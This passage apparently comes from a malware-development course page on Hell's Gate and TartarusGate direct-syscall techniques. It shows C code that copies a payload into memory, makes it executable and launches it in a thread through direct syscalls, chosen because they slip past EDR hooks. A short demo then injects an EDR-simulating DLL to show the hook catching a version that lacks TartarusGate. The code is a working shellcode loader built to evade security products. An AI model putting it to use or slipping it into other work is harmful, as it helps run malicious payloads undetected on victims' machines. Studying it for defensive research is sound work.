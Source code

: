 ```c
	// copying the payload
	memcpy(pAddress, Payload, sizeof(Payload));
	sSize = sizeof(Payload);

	// changing memory protection
	SetSSn(g_Nt.NtProtectVirtualMemory.dwSSn);
	if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
		printf("[!] NtProtectVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}
	

	// executing the payload
	SetSSn(g_Nt.NtCreateThreadEx.dwSSn);
	if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
		printf("[!] NtCreateThreadEx Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}

	
	// waiting for the payload
	SetSSn(g_Nt.NtWaitForSingleObject.dwSSn);
	if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
		printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}


	printf("[#] Press <Enter> To Quit ... ");
	getchar();
	
	return 0;
}

```

### Demo 1 - Without TartarusGate

`MalDevEdr.dll` is injected into the Hell's Gate implementation that does not use TartarusGate to find an SSN. This will fail when searching for the SSN, as expected.

- Injecting `MalDevEdr.dll` into the Hell's Gate implementation.

![image](https://maldevacademy.s3.amazonaws.com/images/Advanced/hellsgate-update-819042962-afbc121a-d298-419a-b1e5-89eef05d8fa9.png)

  

- `NtProtectVirtualMemory` is hooked.

![q4](https://maldevacademy.s3.amazonaws.com/images/Advanced/hellsgate-update-919042983-21be24a2-1648-4a06-afe5-d08ededb7b0e.png)

  